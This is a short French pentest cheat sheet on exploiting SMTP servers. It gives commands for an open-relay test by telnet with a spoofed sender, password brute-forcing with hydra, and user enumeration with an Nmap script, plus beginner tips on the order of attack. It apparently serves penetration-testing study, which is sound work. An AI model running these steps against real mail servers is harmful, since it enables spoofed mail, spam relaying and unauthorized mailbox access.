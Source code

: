 # Exploitation SMTP

## Objectif
Exploiter des faiblesses de configuration ou des mots de passe faibles pour envoyer des mails non autorisés ou accéder à des boîtes mail.

---

## Explications vulgarisées
- SMTP est le protocole d'envoi de mails. Il peut être mal configuré (relai ouvert, mots de passe faibles, accès non chiffré).
- L'exploitation consiste à envoyer des mails non autorisés, à usurper une identité ou à accéder à des boîtes mail.

---

## Commandes et étapes essentielles

### 1. Test de relai ouvert
```bash
telnet target.com 25
MAIL FROM: test@attacker.com
RCPT TO: victim@target.com
DATA
Subject: Test
Ceci est un test
.
QUIT
```
- **Astuce débutant** : Si le serveur accepte d'envoyer le mail, il est vulnérable au relai ouvert.

### 2. Bruteforce de mots de passe
```bash
hydra -L users.txt -P passwords.txt smtp://target.com
```
- **hydra** : Outil de bruteforce pour tester des combinaisons utilisateurs/mots de passe.

### 3. Exploitation automatisée avec Nmap
```bash
nmap --script smtp-enum-users -p 25 target.com
```
- **smtp-enum-users** : Script Nmap pour tester des noms d'utilisateurs courants.

---

## Conseils pour débutants
- Toujours commencer par tester le relai ouvert avant d'essayer des credentials.
- Tester des credentials faibles ou par défaut avant d'essayer des listes longues.
- Utiliser Nmap pour automatiser la détection de comptes valides.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - SMTP Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/SMTP%20Methodology)
- [Nmap SMTP NSE Scripts](https://nmap.org/nsedoc/categories/smtp.html) 
